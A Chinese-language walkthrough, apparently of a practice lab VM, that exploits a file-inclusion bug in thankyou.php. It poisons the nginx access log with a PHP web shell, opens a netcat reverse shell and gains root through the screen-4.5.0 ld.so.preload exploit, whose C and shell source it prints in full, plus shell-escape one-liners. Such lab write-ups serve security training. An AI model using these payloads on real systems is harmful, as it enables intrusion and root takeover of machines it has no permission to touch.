

# 信息收集
## 主机发现
>nmap -sn 192.168.189.0/24


## 网站指纹
>whatweb 192.168.189.134



## 端口扫描
>nmap -sV -O -T4 -p- -Pn -sT 192.168.189.134 --script vuln


## 目录扫描
>dirb http://192.168.189.134 /usr/share/dirb/wordlists/common.txt


>dirbuster


>gobuster dir -u http://192.168.189.134 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php


```
/images (Status: 301)
/contact.php (Status: 200)
/index.php (Status: 200)
/faq.php (Status: 200)
/solutions.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/about-us.php (Status: 200)
/thankyou.php (Status: 200)
```
通过对网站目录的扫描，发现除了在主页上通过点击访问的页面外，还有两个不在主页显示的页面，分别是`thankyou.php`和`footer.php`


通过观察发现每次访问footer.php页面，年份在变化。
通过对网站页面的访问，footer.php中显示的内容在页面的最先下端显示，但通过观察发现，Thankyou.php下方的标志与footer.php页面一样，通过访问年份发生变化。
为了进一步获取信息，需要对查看网页的html源码


推测在Thankyou.php中对footer.php进行了引用
在thankyou.php存在对本地文件的包含，尝试测试该页面是否存在文件包含漏洞
在URL中添加参数`?file=/etc/passwd`进行请求，成功包含出本地的passwd文件

证实存在文件包含漏洞，现在需要写入来获得webshell
在已知存在包含漏洞的情况下，可以利用网站的日志文件来获得shell


# 漏洞利用
## 文件包含
用户在网站上的每一步操作都是会被写入log文件中的
通过前面的信息收集，找到了该web服务器使用的中间件及版本
是nginx/1.6.2
我们可以通过包含nginex容器的log文件来获得shell
网上找到的nginx默认文件路径
```
-prefix=/etc/nginx 
--sbin-path=/usr/sbin/nginx 
--modules-path=/usr/lib64/nginx/modules 
--conf-path=/etc/nginx/nginx.conf 
--error-log-path=/var/log/nginx/error.log
--http-log-path=/var/log/nginx/access.log 
--pid-path=/var/run/nginx.pid
--lock-path=/var/run/nginx.lock
```
通过日志发现之前，在contact.php中输入的信息被记录在access.log中

利用GET请求数据包在access.log中写入一个shell
```
<?php system($_GET['abc']);?>
```

下来需要确认代码是否写入成功，访问如下url，并跟上传递的参数
>/thankyou.php?file=/var/log/nginx/access.log&abc=ls

通过测试，命令执行成功

可以看到命令执行成功
接下来就是使用获得的命令执行权限来反弹网站用户的shell
前提还是在接收端开启监听
>nc -vnlp 8888


>nc -e /bin/bash 192.168.189.128 8888 


能够被用来进行反弹shell的命令，非常多，感兴趣的自行搜索学习

# 提权操作
接下来就需要进行提权操作
首先查看主机上可用的工具
>whereis git php python wget gcc


上传提权检查脚本


给上传的脚本添加可执行权限后即可执行提权检查
>chmod u+x linuxprivchecker.py
>python linuxprivchecker.py

查找SUID文件
>find / -perm -u=s -type f 2>/dev/null


可以利用screen-4.5.0来进行提权操作

根据41154.sh的内容进行操作即可
第一步：先将41154.sh中的libhax.c内容拷出并编译
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

>gcc -fPIC -shared -ldl -o libhax.so libhax.c

第二步：将先将41154.sh中的rootshell.c内容拷出并编译

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
>gcc rootshell.c -o rootshell

第三步：删去41154.sh中第一步和第二部的相关内容
```
#!/bin/bash

echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
将三个文件上传，并执行shell文件就能提升到管理员权限

用awk调用bash
>awk 'BEGIN {system("/bin/bash")}'


合影


***

当执行shell文件时报错`bad interpreter: No such file or directory
`

产生这种情况的原因是shell文件是在windows平台上写的，导致linux平台无法找到。

解决方法一：参考dalao的操作即可解决
```
解决方法：
用vi打开该sh文件，使用 :set ff=unix 保存，即可解决该问题

参考文章：
https://blog.csdn.net/ooooooobh/article/details/82766547
```
解决方法二：手动输入以下命令
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
cd /tmp
./rootshell
```

***
# 总结
```
[+] Related Shell Escape Sequences...
    vi-->       :!bash
    vi-->       :set shell=/bin/bash:shell
    awk-->      awk 'BEGIN {system("/bin/bash")}'
    find-->     find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl-->     perl -e 'exec "/bin/bash";'
```

```
提权检查脚本下载地址：

https://www.securitysift.com/download/linuxprivchecker.py
git clone https://github.com/rebootuser/LinEnum.git
```